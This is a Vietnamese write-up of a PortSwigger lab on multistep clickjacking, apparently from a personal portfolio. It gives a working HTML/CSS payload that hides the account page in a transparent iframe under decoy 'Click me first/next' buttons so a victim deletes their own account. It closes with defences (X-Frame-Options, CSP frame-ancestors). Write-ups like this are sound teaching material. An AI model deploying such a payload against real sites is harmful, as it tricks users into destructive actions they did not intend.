


# Write-ups: Multistep clickjacking

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi chức năng xóa tài khoản tại `/my-account` yêu cầu hai bước và được bảo vệ bởi CSRF token, nhưng thiếu biện pháp chống nhúng iframe như header `X-Frame-Options` hoặc `Content-Security-Pol`icy (CSP). Kẻ tấn công có thể nhúng trang `/my-account` vào `iframe` trong Exploit Server, sử dụng hai div giả mạo ("Click me first" và "Click me next") đặt chồng lên các nút "Delete account" và "Yes" để lừa người dùng thực hiện cả hai bước, xóa tài khoản. Payload được tối ưu vị trí để nhấp đúng các nút mục tiêu, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng clickjacking bằng cách nhúng trang `/my-account` vào iframe, đặt hai div giả mạo lên các nút "Delete account" và "Yes", lừa người dùng nhấp để hoàn thành quy trình xóa tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Chức năng xóa tài khoản yêu cầu hai bước: nhấp nút "Delete account" (gửi yêu cầu POST với CSRF token) và nhấp nút "Yes" trên trang xác nhận.
    - Response header không có `X-Frame-Options` hoặc `Content-Security-Policy` (CSP), cho phép nhúng iframe.

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang /my-account
        `<iframe src="https://0acf002403f30b4981de0cb500e8001b.web-security-academy.net/my-account"></iframe>`
    - Store và view exploit:
        - Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
            

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Delete account" và nút "Yes":
    ```html
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 0.000001;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:513px;
            left:55px;
            z-index: 1;
        }
    .secondClick {
            top:313px;
            left:200px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0acf002403f30b4981de0cb500e8001b.web-security-academy.net/my-account"></iframe>
    ```
    
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` gần trong suốt, hai div "Click me first" và "Click me next" đặt chồng lên nút "Delete account" và "Yes" để lừa người dùng nhấp, thực hiện cả hai bước xóa tài khoản.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân (đã đăng nhập) truy cập trang Exploit Server, nhấp vào "Click me first" và "Click me next", yêu cầu POST xóa tài khoản và xác nhận được gửi kèm CSRF token từ phiên của họ, xóa tài khoản thành công và hoành thành lab


### Bài học rút ra
- Hiểu cách khai thác lỗ hổng clickjacking trong quy trình đa bước bằng cách nhúng trang `/my-account` vào iframe, sử dụng hai div giả mạo để lừa người dùng nhấp vào nút "Delete account" và "Yes", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn chặn nhúng `iframe`, bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking, kể cả với các hành động đa bước.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking trong quy trình xóa tài khoản đa bước với CSRF token nhưng thiếu bảo vệ chống nhúng iframe, nhấn mạnh tầm quan trọng của việc sử dụng `X-Frame-Options` hoặc CSP để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*